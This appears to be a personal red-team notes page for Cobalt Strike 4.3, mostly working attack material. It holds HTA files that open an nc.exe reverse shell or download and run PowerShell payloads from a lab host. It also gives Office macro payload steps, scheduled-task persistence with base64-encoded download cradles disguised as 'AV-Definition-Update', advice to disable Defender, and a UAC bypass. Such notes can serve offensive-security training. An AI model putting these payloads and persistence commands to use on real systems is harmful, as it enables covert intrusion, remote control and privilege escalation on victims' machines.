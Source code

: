 ### How to start cobalt strike 4.3 ?
1. First start team server `./teamserver <KALI IP> <some password> <some C2 malleable profile>`
2. First start team server `./teamserver 192.168.10.200 password123 havex.profile`
3. Then `./start.sh`

### Useful commands for CS 4.3?
1. Change beacon time `sleep <digit number>`
2. E.g Change beacon time to 02 seconds `sleep 2`
3. Run commands via cmd.exe `shell <some command>`
4. E.g `shell dir` or `shell whoami`

### .hta file execution (requres Internet Explorer) 01 - Simple Hello World
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```
### .hta file execution (requres Internet Explorer) 02 - Get reverse shell "console" is hidden
```
<html>
  <head>
    <title>Reverse Shell</title>
  </head>
  <body>
    <h2>get reverse shell on 192.168.10.200 at port 00</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      Shell.Run "cmd /c C:\Users\jon\Desktop\crtoStuff\nc.exe -e cmd.exe 192.168.10.200 200", 0, True
    End Function

    Pwn
  </script>
</html>
```
### .hta file execution (requres Internet Explorer) 03 - Get poweshell reverse shell
1. In CS navigate to **Attacks > Web Drive-by > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for HTTP listener**. The URI path can be anything for e.g I had it **/tempOld**. 
2. By default if we use **powershell.exe** instead of giving the full path its not going to laucnh. This is because we have a **64bit** powershell payload but **.hta** uses **32 bit mstha.exe**. However, we can fix it by specifiying the fullpath with **sysnative**
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.exec "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
      ' This will fail -> shell.exec "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
    End Function

    Pwn
  </script>
</html>
```
### .hta file execution (requres Internet Explorer) 04 - Get poweshell reverse shell after checking the desired architecture
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>
  
  <script language="VBScript">
    Function Pwn()
  Set shell = CreateObject("wscript.Shell")
  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  Else
    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  End If
    End Function
    Pwn
  </script>
</html>

```

### .macro for MS Word
1. Generate a macro for MS WORD **Attacks -> Packages -> MS Office Macro**
2. Copy & Paste the macro in the MS Word document (remeber to use **.doc** not the **.docx**
3. Disable Defender and Run it, you'll get the beacon 

### Persistence for MS Windows via SharPersist
1. First generate the **x64 powershell** payload by **Attacks -> Web by Delivery -> Scripted Web Del (S)**
2. The above will generate a **PS payload, hosted on the CS TeamServer and will be run in memory**
3. E.g. it will be something like
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/64bit'))"
```
3. To avoid issues, Base64 it as following:
```
Linux : echo -en 'IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))' | iconv -t UTF-16LE | base64 -w 0
PS : [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))'))
```
4. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -n "AV-Definition-Update" -m add -o hourly`
5. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -n "SysMonLog" -m add -o logon`

### Windows Privilege Escalation - UAC Bypass
1. First run the SharpUp.exe via command `execute-assembly /opt/CRTO/SharpUp.exe audit`
2. If you see some error like **In medium integrity but user is a local administrator - UAC can be bypassed.** Then this attack **may** be successful. 
3. Also you can verify it by typing commands ``shell whoami /groups`` and ``shell whoami /priv``. You must be in **admin** group e.g. **BUILTIN\Administrators**
4. Two methods are provided by **CS** for this **UAC Bypass** i.e. **elevate** and **runasadmin**
5. in cobalt strike type: `elevate uac-token-duplication <your listner name>` e.g. ``elevate uac-token-duplication my1st64bit``
